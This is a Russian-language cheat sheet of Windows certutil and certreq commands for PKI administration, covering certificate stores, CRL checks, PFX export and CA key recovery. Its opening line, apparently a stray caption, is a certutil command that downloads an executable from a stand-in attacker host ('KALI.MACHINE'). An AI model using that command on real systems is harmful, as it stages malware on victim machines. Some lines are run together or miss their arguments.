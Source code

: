 certutil.exe -urlcache -split -f http://KALI.MACHINE/FILE/TO/UPLOAD.exe  
  
certutil - отличный инструмент, но с одной проблемой - у него как и у openssl куча параметров, которые знать/помнить невозможно, особенно в условиях, когда этим пользоваться часто нет необходимости, поэтому привожу наиболее часто используемые из собственной практики.  
  
1. Посмотреть сертификаты в хранилище сервера. Это то же самое что видно в ветке peronal оснастки Certificates/Local Computer.  
Certutil –store My  
Любопытно, что там есть сертификаты у DC, которые аутентифицируют клиентов по токену (нужен для возможности подключения к CA для аутентификации), но там нет сертификатов у прочих серверов, которые также могут аутентифицировать клиентов по сертификату.   
  
2. Посмотреть сертификаты, хранимые в AD. Там хранятся сертификаты самих удостоверяющих центров.  
Certutil -store -enterprise NTAuth  
Для логона по смарткартам в этом сторе должны лежать сертификаты УЦ, выдающих сертификаты на смарткарты. NTAuth живет в AD, и на каомпьютеры домена распространяется групповой политикой. Если на компьютере не будет корректной копии NTAuth, вход по смарткарте на него будет невозможен.  
  
3. Проверить, что сертификат проверяем по CRL (Certificate Revocation List) по CDP (CRL distribution point) указанным в сертификате.  
Certutil –verify -urlfetch –v certificate.cer, где certificate.cer - имя файла, куда экспортирован сертификат.  
Команда может использоваться как для проверки сертификатов пользователей, так и для проверки сертификатов компьютеров).  
  
4. То же самое, что и п.1, но графическая:  
Certutil –viewstore My  
  
5. Запрос можно сгенерить вручную, вручную отнести на CA и получить на него сертификат. Команды приводить не буду (так как ни разу пока не делал, но приведу, где почитать, ибо был в двух шагах от этой необходимости, материал может пригодиться)  
 - Ответ товарища Valergo на форуме: http://social.technet.microsoft.com/Forums/ru-RU/windowsserverru/thread/69a887f0-8719-4a22-bde8-728d2d38d117/#a4f1dc1c-4f54-43d5-aed6-265b315e2e36  
 - Статья в TechNet: http://technet.microsoft.com/ru-ru/library/cc783835%28WS.10%29.aspx  
  
6. Проверить, что по URL в CDP можно вытащить CRL.  
Графически: Certutil –url certname.cerи нажать кнопку Retrieve.  
Текстово, вывод лучше отправить в файл: Certutil –v –verify –urlfetch certname.cer >c:certcheck.txt  
  
7. Работа с криптопровайдером (CSP - Crypto service provider):  
Certutil /scinfo   - информация о текущем.  
Certutil -csplist  - список всех.  
Certutil -csptest "cspname" (например: Certutil -csptest "Microsoft Strong Cryptographic Provider") - информация конкретном CSP.  
  
8. Посмотреть мои сертификаты:  
certutil -store -user my > my.txt  
Экспорт в PFX (PKCS#12):  
certutil -p test -user -exportPFX 0123456788e8cb1a18e cert.pfxВ качестве параметров указывается серийник и пароль (через -p)  
Импорт:  
certutil -p test -user -importpfx cert.pfx  
  
9. Хорошая помщь по certreq: http://support.microsoft.com/kb/931351  
(см. раздел "How to use the Certreq.exe utility to create and submit a certificate request that includes a SAN" в конце статьи).  
Официальная помощь: http://technet.microsoft.com/en-us/library/cc736326%28WS.10%29.aspx  
certreq -new hrctforms.inf hrctforms.reqcertreq -submit -config "SERVER_NAMECA NAME" hrctforms.req hrctforms.cer,  
где "SERVER_NAMECA NAME" - название УЦ с именем сервера.  
  
Простейший варинт файла .inf:  
[Version]  
  
Signature="$Windows NT$  
  
[NewRequest]  
Subject = "E=hrctforms@tnk-bp.com,CN=hrctforms,OU=TBInform,O=TNK-BP,L=Moscow,S=Moscow,C=RU"  
Exportable = TRUE  
KeyLength = 1024  
ProviderName = "Microsoft Enhanced Cryptographic Provider v1.0"  
     
[RequestAttributes]  
CertificateTemplate = SMIMEforServices  
  
10. Резервное копирование ключей УЦ:  
certutil –backupKey  
11.certutil -pulseЗапустить autoenrollment.  
  
12.certutil -getkey - извлекает из УЦ зашифрованный ключом Агента восстановления (KRA - Key recovery agent) BLOB депонированного ключа. Команду следует запускать от пользователя с правами администратора на УЦ. определяет какие ключи доставать. Это может быть имя пользователя или серийный номер сертификата. определяет имя выходного файла. Пример:  
certutil -getkey 40a2c77f0001000000fc data.blb, где  
40a2c77f0001000000fc - серийный номер сертификата, ключ которого надо восстановить.  
  
13. certutil -recoverkey  - расшифровывает BLOB и восстанавливает депонированный ключ в PKCS#12 (файл с расширением .pfx). Команда должна выполняться от пользователя в профиле которого есть сертификат Агента восстановления с секретным ключом.  Если ошибок не было, то команда спросит пароль для шифрования PFX-файла, который будет записан в . Продолжим пример п.12:  
certutil -recoverkey data.blb username.pfx  
Подробнее: https://www.securitylab.ru/blog/personal/reply-to-all/155909.php